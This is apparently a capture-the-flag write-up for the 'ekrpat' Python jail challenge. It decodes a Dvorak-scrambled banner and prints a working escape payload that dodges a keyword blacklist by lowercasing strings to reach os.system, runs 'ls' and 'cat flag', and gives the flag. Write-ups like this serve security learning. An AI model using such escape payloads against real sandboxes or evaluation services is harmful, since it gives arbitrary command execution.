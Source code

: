# erkpat

>I made so few errors when creating this jail.
>
>nc 34.72.64.224 8083
>
>nc 35.231.20.75 8083
>
>Created by Thomas (Seltzerz #6678)

>### Hint
>Look down at where you're typing.

---

## Connect to the server

```bash
inho@xps15:~/Desktop$ nc 34.72.64.224 8083
Frg-k. xprt.b mf jre.! >ojal. ,cydrgy yd. d.nl ru .kanw .q.jw cmlrpyw rl.bw row p.aew ofoy.mw abe ,pcy.v Ucpoyw .by.p -ekrpat-v Frg ,cnn yd.b i.y abryd.p cblgy ,dcjd frg jab go. ypf yr xp.at rgy ru yd. hacnv
>>>
```

dvorak
http://wbic16.xedoloh.com/dvorak.html


Convert `To QWERTY` :

```
You've broken my code! Escape without the help of eval, exec, import, open, os, read, system, and write. First, enter 'dvorak'. You will then get another input which you can use try to break out of the jail.
```


## ls

```bash
inho@xps15:~/Desktop$ nc 34.72.64.224 8083
Frg-k. xprt.b mf jre.! >ojal. ,cydrgy yd. d.nl ru .kanw .q.jw cmlrpyw rl.bw row p.aew ofoy.mw abe ,pcy.v Ucpoyw .by.p -ekrpat-v Frg ,cnn yd.b i.y abryd.p cblgy ,dcjd frg jab go. ypf yr xp.at rgy ru yd. hacnv
>>> dvorak
>>> __builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('ls')
Dockerfile
ekrpat.py
flag
ojal.
ynetd
Dockerfile

```


## cat flag
```bash
inho@xps15:~/Desktop$ nc 34.72.64.224 8083
Frg-k. xprt.b mf jre.! >ojal. ,cydrgy yd. d.nl ru .kanw .q.jw cmlrpyw rl.bw row p.aew ofoy.mw abe ,pcy.v Ucpoyw .by.p -ekrpat-v Frg ,cnn yd.b i.y abryd.p cblgy ,dcjd frg jab go. ypf yr xp.at rgy ru yd. hacnv
>>> dvorak
>>> __builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat flag')
UMASS{dvorak_rules}

```

`UMASS{dvorak_rules}`

## Reference

https://anee.me/escaping-python-jails-849c65cf306e
